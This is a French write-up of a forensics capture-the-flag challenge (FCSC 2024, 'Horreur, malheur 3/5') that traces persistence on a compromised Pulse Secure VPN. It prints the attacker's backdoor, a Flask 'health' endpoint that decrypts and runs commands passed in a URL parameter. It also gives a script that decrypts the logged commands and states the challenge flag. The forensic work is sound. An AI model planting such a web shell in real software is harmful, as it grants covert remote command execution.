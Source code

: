 
https://hackropole.fr/fr/challenges/forensics/fcsc2024-forensics-horreur-malheur-3/

## Description

Vous venez d’être embauché en tant que Responsable de la Sécurité des Systèmes d’Information (RSSI) d’une entreprise stratégique.

En arrivant à votre bureau le premier jour, vous vous rendez compte que votre prédécesseur vous a laissé une clé USB avec une note dessus : `VPN compromis (intégrité). Version 22.3R1 b1647`.

---

Vous avez réussi à déchiffrer l’archive. Il semblerait qu’il y ait dans cette archive une autre archive, qui contient le résultat du script de vérification d’intégrité de l’équipement.

À l’aide de cette dernière archive et des journaux, vous cherchez maintenant les traces d’une persistance déposée et utilisée par l’attaquant.

Cette épreuve a été découpée en cinq parties :

- [Horreur, malheur 1/5 - Archive chiffrée](https://hackropole.fr/fr/challenges/forensics/fcsc2024-forensics-horreur-malheur-1/).
- [Horreur, malheur 2/5 - Accès initial](https://hackropole.fr/fr/challenges/forensics/fcsc2024-forensics-horreur-malheur-2/).
- [Horreur, malheur 3/5 - Simple persistance](https://hackropole.fr/fr/challenges/forensics/fcsc2024-forensics-horreur-malheur-3/).
- [Horreur, malheur 4/5 - Pas si simple persistance](https://hackropole.fr/fr/challenges/forensics/fcsc2024-forensics-horreur-malheur-4/).
- [Horreur, malheur 5/5 - Un peu de CTI](https://hackropole.fr/fr/challenges/forensics/fcsc2024-forensics-horreur-malheur-5/).
## Write Up

Bon bon, cet exercice 3 est un cumul du 1 et du 2, rebelotte pour déchiffrer l'encrypted, d'où l'intérêt des WU !!

Un aperçu du contenu de l'archive qui était dans archive.encrypted :
![[Pasted image 20250212091723.png]]

On check le "configencrypt", script qui a permis de créer l'archive :![[Pasted image 20250212091747.png]]

On check "cav-0.1-py3.6.egg", en faisant un cat on se rend compte que c'est pas comme ça qu'on fait ahah, en checkant sur google je tombe là dessus :
![[Pasted image 20250212091950.png]]

On sait jamais :
![[Pasted image 20250212092201.png]]
Mais non dommage rien trouvé, par contre on n'est pas bredouille avec juste "flag" :
![[Pasted image 20250212092312.png]]

On va dans "health.py" :
```python
#
# Copyright (c) 2018 by Pulse Secure, LLC. All rights reserved
#
import base64
import subprocess
import zlib
import simplejson as json
from Cryptodome.Cipher import AES
from Cryptodome.Util.Padding import pad, unpad
from flask import request
from flask_restful import Resource


class Health(Resource):
    """
    Handles requests that are coming for client to post the application data.
    """

    def get(self):
        try:
            with open("/data/flag.txt", "r") as handle:
                dskey = handle.read().replace("\n", "")
            data = request.args.get("cmd")
            if data:
                aes = AES.new(dskey.encode(), AES.MODE_ECB)
                cmd = zlib.decompress(aes.decrypt(base64.b64decode(data)))
                result = subprocess.getoutput(cmd)
                if not isinstance(result, bytes): result = str(result).encode()
                result = base64.b64encode(aes.encrypt(pad(zlib.compress(result), 32))).decode()        
                return result, 200
        except Exception as e:
            return str(e), 501
```

Bon on voit qu'en requêtant l'api sur l'argument cmd, on peut envoyer de l'information qui est ensuite chiffré. 

Comme on est dans l'arborescence /api/ressources/health.py, on va essayer de taper dans du health?cmd= dans les logs de l'exo 2 :
![[Pasted image 20250212093050.png]]
Merci Lechat pour la commande sed, j'avais la flemme de faire du regex :)

Bon par contre maintenant, faut tout décoder, on va se baser sur le script de chiffrement :

```python
from Crypto.Cipher import AES

from base64 import b64decode

from Crypto.Util.Padding import unpad

from urllib.parse import unquote

import zlib

  
  

info_health = [

    "DjrB3j2wy3YJHqXccjkWidUBniQPmhTkHeiA59kIzfA%3D",

    "K/a6JKeclFNFwnqrFW/6ENBiq0BnskUVoqBf4zn3vyQ%3D",

    "/ppF2z0iUCf0EHGFPBpFW6pWT4v/neJ6wP6dERUuBM/6CAV2hl/l4o7KqS7TvTZAWDVxqTd6EansrCTOAnAwdQ%3D%3D",

    "Lmrbj2rb7SmCkLLIeBfUxTA2pkFQex/RjqoV2WSBr0EyxihrKLvkqPKO3I7KV1bhm8Y61VzkIj3tyLKLgfCdlA%3D%3D",

    "yPfHKFiBi6MxfKlndP99J4eco1zxfKUhriwlanMWKE3NhhHtYkSOrj4QZhvf6u17fJ%2B74TvmsMdtYH6pnvcNZOq3JRu2hdv2Za51x82UYXG1WpYtAgCa42dOx/deHzAlZNwM7VvCZckPLfDeBGZyLHX/XP4spz4lpfau9mZZ%2B/o%3D",

    "E1Wi18Bo5mPNTp/CaB5o018KdRfH2yOnexhwSEuxKWBx7%2Byv4YdHT3ASGAL67ozaoZeUzaId88ImfFvaPeSr6XtPvRqgrLJPl7oH2GHafzEPPplWHDPQQUfxsYQjkbhT",

    "7JPshdVsmVSiQWcRNKLjY1FkPBh91d2K3SUK7HrBcEJu/XbfMG9gY/pTNtVhfVS7RXpWHjLOtW01JKfmiX/hOJQ8QbfXl2htqcppn%2BXeiWHpCWr%2ByyabDservMnHxrocU4uIzWNXHef5VNVClGgV4JCjjI1lofHyrGtBD%2B0nZc8%3D",

    "WzAd4Ok8kSOF8e1eS6f8rdGE4sH5Ql8injexw36evBw/mHk617VRAtzEhjXwOZyR/tlQ20sgz%2BJxmwQdxnJwNg%3D%3D",

    "G9QtDIGXyoCA6tZC6DtLz89k5FDdQNe2TfjZ18hdPbM%3D",

    "QV2ImqgrjrL7%2BtofpO12S9bqgDCRHYXGJwaOIihb%2BNI%3D",

]

  

dskey = "50c53be3eece1dd551bebffe0dd5535c" #Flag.txt du chall 1

  

for info in info_health:

    # On se base sur celui là : b64encode(aes.encrypt(pad(zlib.compress(result))), et on va dans l"autre sens

    aes = AES.new(dskey.encode(), AES.MODE_ECB)

    info_decrypt = aes.decrypt(b64decode(unquote(info)))

    result = zlib.decompress(unpad(info_decrypt,32))

    print(result)
```

Et hop :
![[Pasted image 20250212094536.png]]

Le flag est donc **FCSC{6cd63919125687a10d32c4c8dd87a5d0c8815409}**.